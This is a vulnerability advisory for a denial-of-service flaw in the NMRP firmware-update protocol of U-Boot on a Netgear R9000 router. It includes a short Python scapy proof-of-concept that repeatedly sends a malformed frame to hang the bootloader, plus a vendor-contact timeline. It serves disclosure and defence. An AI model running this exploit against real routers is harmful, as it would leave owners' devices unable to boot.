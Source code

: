 # Denial of Service in NMRP Protocol

Published: April 1, 2021

CVSS:3.0/AV:A/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H [6.5]

# Prior Art

[http://www.chubb.wattle.id.au/PeterChubb/nmrp.html](http://www.chubb.wattle.id.au/PeterChubb/nmrp.html)

[https://github.com/jclehner/nmrpflash](https://github.com/jclehner/nmrpflash)

## Overview

The NMRP protocol is a debug feature used to update firmware images on Netgear Routers over the LAN.  This protocol does not require authentication.  NMRP is a Layer 2 protocol based on Ethernet.  The NMRP daemon starts for three seconds before the U-Boot bootloader begins the boot process of the primary Linux operating system. This is evident by checking the `bootcmd` environment variable within U-Boot:

```
ALPINE_DB> printenv bootcmd
bootcmd=nmrp;run check_dni_image;run bootargsnand;qca8337_init_one; ledtoggle;sleep 1;run bootnand
```

This is the version of U-Boot testing was completed against as output from the U-Boot bootloader:

```
U-Boot 2015.01-gd836bbb (Jul 22 2016 - 13:32:00)
```

The specific device used for testing was a Netgear Nighthawk R9000 (x10) router.

## Vulnerability

Multiple memory corruption issues exist within the NMRP protocol implementation within U-Boot. Any of these vulnerabilities can be exploited to cause the bootloader to hang and no longer accept input from either the network or the primary UART console.  The only option is to cut the power in order to restart the device. This results in preventing the operating system from loading and thus the device being operable.  An attacker with a wired LAN connection can repeatedly emit these malicious packets so that every time the device attempts to boot, the vulnerability is triggered and the device doesn't boot into Linux.  The end result is an attacker on the wired LAN can prevent the router from ever achieving an operational state.

## Proof of Concept

A python-based proof of concept script is provided to demonstrate the vulnerability. You will need the `scapy` package installed in order to run this script.  `scapy` can be installed with pip: `pip3 install scapy`. Additionally, the script will need to be run with root privileges in order to send layer 2 packets.

```python
from scapy.all import *
import time

SRC_MAC_ADDRESS = "dc:a6:32:1b:1d:c6"
DST_MAC_ADDRESS = "cc:40:d0:5d:a2:84"

pkt = Ether(src=SRC_MAC_ADDRESS, dst=DST_MAC_ADDRESS, type=0x912) / b'\x00\x00\x01\x00\x00\x0e\x00\x01\x00\x00NTGR\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'

while True:
  sendp(pkt, iface='eth0') # change iface to match ethernet NIC connected to router.
  time.sleep(0.95)
```

This vulnerability works by setting the options length to `0x0000` for the initial advertisement packet that is sent to initiate the firmware upload process. Note that you will need to change the `SRC_MAC_ADDRESS` and `DST_MAC_ADDRESS` variables to match your lab configuration, and you may need to change the value for `iface` in the `sendp` invocation to match your ethernet adapter which is connected to the router. The ethernet connection must be on the first ethernet port on the router.

## Extrapolation

During testing, many different packets were crafted and sent to the device.  Some crafted packets resulted in an error message and subsequent device reload. The aforementioned proof of concept is not the only packet which results in a device hang; there were too many combinations to list individually in this write up.  It is recommended that the vendor review the source code for the NMRP protocol and conduct an internal audit for additional memory corruption issues.

## Time Line

* January 31st, 2021: Notified Vendor of Vulnerability - stated intent to disclose April 1st, 2020.
* February 07, 2021: No response, sent reminder email asking for acknowledgement.
* February 15, 2021: No response, sent another reminder email asking for acknowledgement.
* February 21, 2021: No response, sent another reminder email asking for acknowledgement.
* February 21, 201: Tweeted @NETGEAR to attempt contact. [https://twitter.com/nstarke/status/1363552292729946113](https://twitter.com/nstarke/status/1363552292729946113)
* March 21, 2021: No response, sent another reminder email asking for acknowledgement.
* March 21, 2021: Tweeted @NETGEAR again to attempt contact. [https://twitter.com/nstarke/status/1373701891801104385](https://twitter.com/nstarke/status/1373701891801104385)
* March 24, 2021: Received tweet from @NETGEAR_UKI directing me to their bug bounty program. [https://twitter.com/NETGEAR_UKI/status/1374834049483599872](https://twitter.com/NETGEAR_UKI/status/1374834049483599872)
* March 24, 2021: Responded saying I cannot disclose through the bug bounty program.  [https://twitter.com/nstarke/status/1374834668177096705](https://twitter.com/nstarke/status/1374834668177096705)
* April 1, 2021: Public Disclosure
